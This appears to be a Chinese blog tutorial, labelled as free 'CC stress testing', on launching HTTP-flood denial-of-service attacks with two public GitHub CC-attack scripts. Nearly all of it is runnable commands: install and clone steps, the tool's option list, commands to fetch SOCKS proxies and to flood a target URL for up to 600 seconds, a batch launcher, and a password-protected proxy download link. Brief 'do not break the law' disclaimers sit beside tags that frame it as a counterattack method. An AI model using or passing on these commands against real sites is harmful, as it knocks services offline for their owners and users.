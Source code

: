```yaml
---
title: 如何进行免费的CC压力测试
description: 网站安全压力测试
date: 2023-02-10
image: awa.jpg
slug: cc-gongji
categories: 
    - web
    - 白嫖
tags:
    - 网站测试
    - 网站安全
    - 反击手法
keywords: "CC攻击反击"
lastmod: 2023-04-04 13:16:00
---
```


# CC压力测试教程

> 仅供测试不要用来做违法的事情

## 脚本介绍

### kolbwang CC-attack（方便但是太老了）

```shell
pip3 install requests pysocks
git clone https://github.com/kolbwang/cc-attack.git
cd cc-attack
```

使用

```shell
python3 cc.py
```

**这个脚本很老了 总是会停攻击**

> 脚本开源库：[GitHub - kolbwang/cc-attack](https://github.com/kolbwang/cc-attack)

### Leeon123 CC-attack

#### 安装（windows）

```shell
pip3 install requests pysocks
git clone https://github.com/Leeon123/CC-attack.git
# 也可以直接下载下来
cd CC-attack
```

#### 用法（Windows）

```shell
python cc.py <arguments>
```

```shell
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```

#### 下载代理列表

将 socks5 代理下载为 proxy.txt：

```shell
python cc.py -down -f proxy.txt -v 5
```

使用自定义代理列表（socks4.txt）攻击目标 30 秒：

```shell
python cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

#### 启动脚本

新建.cmd文件

```batch
# 填入下面的链接 嫌烦就去掉这个注释
python cc.py -url https://网站.com -v 5 -s 600 # 默认是proxy.txt
```

不要用来攻击无辜的网站！！！

> http代理下载
> 
> https://pvphack.lanzoue.com/imPc30n8n9qf  
> 
> 密码:6dh1
> 
> 项目GITHUB链接
> 
> [GitHub - Leeon123/CC-attack: Using Socks4/5 or http proxies to make a multithreading Http-flood/Https-flood (cc) attack.](https://github.com/Leeon123/CC-attack)

不要拿去违法OwO
